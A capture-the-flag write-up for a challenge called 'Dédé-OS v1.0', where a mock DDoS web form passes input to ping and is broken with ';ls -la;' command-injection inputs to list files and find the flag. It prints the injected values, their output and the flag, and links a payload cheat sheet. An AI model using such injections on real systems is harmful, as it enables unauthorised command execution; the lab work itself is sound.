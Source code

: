 # Dédé-OS v1.0

### Description

Serveur de déni de service en masse pour les 1337 h4xorz. Essayez de prouver au propriétaire que c'est de la merde. Lire le fichier contenant le flag.

### Solution

On the page, we have an text input and a button "attack".
The site is "supposed" to DDOS the adress we put into.

If we put an address it returns
> "Target reached !".

Obviously, we have to try command injections.

For that, I have referred to this cheat sheet : https://github.com/payloadbox/command-injection-payload-list

As the command behind seems to be `ping <address>`, if we put a `;` we will be able to execute another command. We can also us `||` because if a command is not working it will execute the one after.

```bash
$ ;ls -la;

Result from attack :

total 20
dr-xr-xr-x    1 root     root          4096 Nov 28 18:35 .
drwxr-xr-x    1 root     root          4096 Dec  3 14:44 ..
-r-xr-xr-x    1 root     root          1169 Nov 28 02:11 index.php
dr-xr-xr-x    1 root     root          4096 Nov 28 02:11 secret
-r-xr-xr-x    1 root     root           778 Nov 28 02:11 style.css

```
That's it ! Now we know we can execute commands.

After exploring the folder the flag was hidden in the following path :

```bash
$ ;ls -la secret/the/flag/is/here;

Result from attack :

total 12
dr-xr-xr-x    1 root     root          4096 Nov 28 02:11 .
dr-xr-xr-x    1 root     root          4096 Nov 28 02:11 ..
-r-xr-xr-x    1 root     root            25 Nov 28 02:11 .flag
```

Flag : `H2G2{y3aH_b4sH_yoU_knOW}`